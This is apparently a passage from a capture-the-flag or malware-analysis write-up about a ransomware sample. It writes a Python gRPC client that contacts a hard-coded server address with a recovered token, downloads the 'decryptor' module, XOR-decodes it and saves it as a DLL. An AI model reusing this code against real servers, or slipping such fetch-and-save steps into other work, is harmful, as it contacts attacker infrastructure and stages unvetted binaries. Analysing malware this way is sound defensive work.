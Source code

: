 
At this point we can setup our environment in order to use python.

To do that we have first to install some python modules `grpcio` and `grpcio-tools`

Then we can use them to prepare our environment:
```shell
python -m grpc_tools.protoc --proto_path=. --python_out=. --grpc_python_out=. service.proto
```
- ![[Pasted image 20240602173717.png]]

At this point you will find these files in the directory where is `service.proto`:
- ![[Pasted image 20240602172509.png]]


Perfect...
Let's write our client that performs a request to the `gRPC` server:
```python

import grpc
import service_pb2
import service_pb2_grpc

import base64


with grpc.insecure_channel('37.252.189.176:50051') as channel:
    stub = service_pb2_grpc.RansomServiceStub(channel)

    request = service_pb2.ModuleRequest(
        module_type=service_pb2.ModuleType.MODULE_DECRYPT,
        token='1b426547968422e0c6d02ee1130cac1b028d7910b1827a70c1d529410fa45ba3',
        os_version='Microsoft Windows NT 10.0.19042.0'
    )

    response = stub.GetModule(request)
    module = response.module

    # response xoring and saving
    module_bytes = bytes([b ^ 0x3F for b in module])
    dll_file_path = 'decryptor.dll' 
    
with open(dll_file_path, 'wb') as dll_file:
    dll_file.write(module_bytes)

```
- save it as `get_decryptor.py`

So what we are doing here?
1. **==we perform a connection with the server==**
2. ==**we send a request that contains as** ==
	1. `module_type` `MODULE_DECRYPT` <mark style="background: #BBFABBA6;">hoping we will obtain the code that is really used to perform a decryption</mark>
	2. `token` <mark style="background: #BBFABBA6;">the token found</mark> in `verysus102` `MainWindow` file
	3. `os_version` a dummy Windows 10 version
3. ==**we get the response and we get the**== `module` ==**field of the response**==
4. we `xor` **==the module we got using the technique we have seen in==** `MainWindow`
5. ==**we write the result of the**== `xoring` ==**in a**== `decryptor.dll` file, because we are pretty sure it is another `.NETCoreApp` written in C# 
